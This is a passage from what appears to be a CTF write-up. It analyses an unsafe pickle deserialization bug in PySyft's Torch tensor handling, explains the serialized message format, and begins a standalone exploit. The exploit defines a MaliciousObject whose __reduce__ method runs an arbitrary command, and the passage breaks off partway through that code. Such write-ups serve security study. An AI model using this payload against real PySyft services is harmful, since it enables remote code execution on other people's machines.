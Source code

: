 The idea behind these changes it's clever. The author avoided a lot of work. Chaning the function that serializes the Torch object to serialize a malicious object gave him the ability to exploit the bug without worrying about all the previous things that I've explained. To make it work he just had to execute the code provided by the CTF, that creates a Torch tensor that in the end, when serialized FIRST will contain the malicious object.

This approach works, but I wanted to accomplish two goals more:

1) Understand the bug better
2) Write an exploit without dependencies from Pysyft or Torch

So I've decided to write my own exploit.

### Full standalone exploit

To accomplish this I started with a real Torch.Tensor object and followed how was serialized and processed until transmitted.

I've found that the object can be representend like this:

```Python
torch_tensor_simplified = (14, (4474411590, <Torch_Tensor_Object_Pickled>, None, None, None, None, (5, (b'torch',)))) 
```

After analyzing the code I've learned that:

* 14 is tells the code that the following object should be interpreted as a Torch.Tensor. This can be confirmed in <syft/serde/msgpack/serde.py> function _"\_detail"_. If you check its documentation it will point you to the following [file](https://github.com/OpenMined/syft-proto/blob/master/proto.json).


```json
{
  "_DOC": "This file defines PySyft protocol serialization constants",
  "VERSION": 0,
  "TYPES": {
    ...
    },
    "torch.Tensor": {
      "code": 14
    },
    ...
```

* The next constant is a ID, I've left it without changes

* String __torch__ tells the code what deserializer should be used. This is key for us, as the Torch deserializer is the vulnerable one using the unsafe pickle.load function

Based on these points and taking the Torch.Tensor object we can craft our exploit as follows:

```Python
import argparse
import asyncio
import binascii
import lz4.frame
import msgpack
import pickle
import websockets


class MaliciousObject(object):
    def __init__(self, command):
        self.command = command

    def __reduce__(self):
        import os
        import subprocess
        if os.name == 'posix':
```